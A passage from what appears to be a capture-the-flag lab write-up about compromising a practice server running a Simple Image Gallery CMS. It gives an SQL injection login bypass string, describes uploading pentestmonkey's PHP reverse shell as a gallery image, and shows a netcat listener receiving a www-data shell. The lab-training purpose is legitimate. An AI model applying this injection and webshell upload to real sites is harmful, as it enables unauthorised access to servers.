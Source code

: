 Now funnily enough, if we specify port 8080 in http we also manage to visit that same directory, which makes the following site visible

<img width="462" height="379" alt="image" src="https://github.com/user-attachments/assets/54d3d7d6-273e-4ae5-9c3c-fa929d5deef9" />

This answers our second question, which asked what's the name of the CMS (Content-Management-System). Apparently it's a Simple Image Gallery. In here we have the possibility to insert our username and password. But we also get a big clue with the URL that notifies that php is being used: *http://10.10.53.43/gallery/login.php*

Maybe this could be a clue for trying to use a Reverse Shell. Just for fun I tried to login with SQL injection and was a little shocked by how fast that worked, but that instance of my AttackBox was immediately shut down after that as well. I used the basic *' OR 1=1-- -* command, which I probably should not use. I will try to avoid that next time, but it worked out this time around.

We are greeted with the following page now

<img width="1168" height="318" alt="image" src="https://github.com/user-attachments/assets/213c682a-157e-4d8e-9062-fc43fe1333ac" />

Well, well. My next goal is to figure out the password of the admin user to get access to the shell, but when checking *My Account* the password field is left blank

<img width="910" height="847" alt="image" src="https://github.com/user-attachments/assets/0b4579be-50c6-475f-b03a-5c8b4e8729b6" />

Smart, but bad for me. Further checking out the pages reveals a page, which lets us check out albums and even upload our own. Hmmmm... that looks like something we could exploit with a reverse shell.

<img width="936" height="766" alt="image" src="https://github.com/user-attachments/assets/c744d7c7-01ff-40dc-a1b3-fc996fedde1b" />

Let's download the php reverse shell from pentestmonkey, change ports and IP address and set up the listener. Hopefully this works out. We create an album called pwned hehe. Now we upload the php file.

<img width="936" height="766" alt="image" src="https://github.com/user-attachments/assets/94505b8e-62b5-4bd3-ac66-da045607536c" />

That... worked. We didn't even have to change the php version... That's a bit concerning.

```
root@ip-10-10-157-105:~# nc -lvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.10.134.233 36180
Linux ip-10-10-134-233 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 12:37:28 up 52 min,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
```